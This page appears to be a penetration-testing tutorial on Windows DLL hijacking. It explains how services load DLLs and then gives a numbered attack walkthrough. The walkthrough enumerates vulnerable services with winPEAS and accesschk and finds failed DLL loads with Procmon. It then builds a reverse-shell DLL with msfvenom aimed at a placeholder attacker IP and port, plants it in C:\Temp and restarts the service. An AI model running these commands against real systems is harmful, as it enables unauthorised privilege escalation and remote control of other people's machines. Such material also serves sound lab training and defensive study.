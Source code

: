 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

DLL Hijacking is a cyberattack that leverages the way Windows applications search and load Dynamic Link Libraries (DLLs). By exploiting how applications load DLLs, attacker can gain elevated privileges or execute arbitrary code.

### **HOW DLL HIJACKING WORKS**

1.  Services in Windows load DLLs with the same privileges as the service. If attacker control the DLL, they can execute code with the service's privileges.
2.  Absolute Path Vulnerability: When a service loads a DLL from a writable path, attacker can replace it with a malicious one, causing privilege escalation.
3.  If an application can't find a required DLL, attacker can place a malicious DLL in a directory searched by Windows, leading to privilege escalation.
4.  Windows searches for DLLs in a specific order. Attacker exploit this by placing a malicious DLL in a location searched before the legitimate one.

### **STEPS TO IDENTIFY AND EXPLOIT INSECURE SERVICE EXECUTABLES**

1.  Use winPEAS to list non-Microsoft services:  
    `.\winPEASx64.exe quiet servicesinfo`
    
	![](../../../img/Windows-Environment/127.png)
    
2.  Verify writable directories in the system PATH:  
    `sc qc dllsvc`
    
3.  Check the service access permissions:  
    `.\accesschk.exe /accepteula -uvqc user dllsvc`
    
4.  Set filters to monitor the specific service executable with Procmon:  
    `Procmon64.exe`
    
5.  Filter out registry and network activities to pinpoint DLL-related errors.
    
6.  Monitor failed attempts to load the DLL, often defaulting to writable directories like:  
    `C:\Temp`
    
7.  Use Metasploit to create a malicious DLL:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP_ADRESS] LPORT=[PORT_NUMBER] -f dll -o hijackme.dll`
    
8.  Place the malicious DLL in the target directory:  
    `move hijackme.dll C:\Temp`
    
9.  Restart the service to load the malicious DLL:  
    `net stop dllsvc`  
    `net start dllsvc`